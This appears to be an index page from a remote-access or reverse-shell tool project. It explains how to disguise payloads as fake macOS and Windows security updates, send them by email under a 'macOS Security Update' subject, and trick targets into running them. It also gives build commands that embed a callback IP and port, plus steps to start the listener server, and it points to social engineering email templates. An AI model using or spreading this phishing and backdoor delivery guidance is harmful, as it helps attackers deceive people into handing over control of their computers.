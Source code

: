 **macOS (.app):**

```
Good names:
- SystemUpdate.app → compress to SystemUpdate.zip
- DocumentViewer.app → compress to DocumentViewer.zip

Email subject: "macOS Security Update"
Attachment: SystemUpdate.zip

What target does: Extracts → Opens .app → Runs!
```

### For Python Scripts

```
⚠️ Harder to convince! Target must:
1. Have Python installed
2. Open terminal
3. Run command

Better for technical targets or lab testing.
```

---

## 📚 Documentation Index

### Start Here:

1. **INDEX.md** (this file) - Overview of everything
2. **EXECUTABLE_GUIDE.md** - Complete guide for building .exe/.app
3. **QUICKSTART.md** - Fast commands and troubleshooting

### For Social Engineering:

4. **SOCIAL_ENGINEERING_TEMPLATES.md** - Email templates, scripts, etc.

### For Complete Info:

5. **README.md** - Comprehensive documentation

### For Icons:

6. **icons/README.md** - How to create custom icons

---

## 🧪 Testing Before Deployment

**Always test in safe environment first!**

```bash
# 1. Build for your test VM
python3 build_executable.py 192.168.1.100 5555 windows

# 2. Start server
cd .. && python3 server.py

# 3. Transfer to test VM
# Copy payloads/SecurityUpdate.exe to Windows VM

# 4. Run on VM
# Double-click SecurityUpdate.exe

# 5. Verify connection
```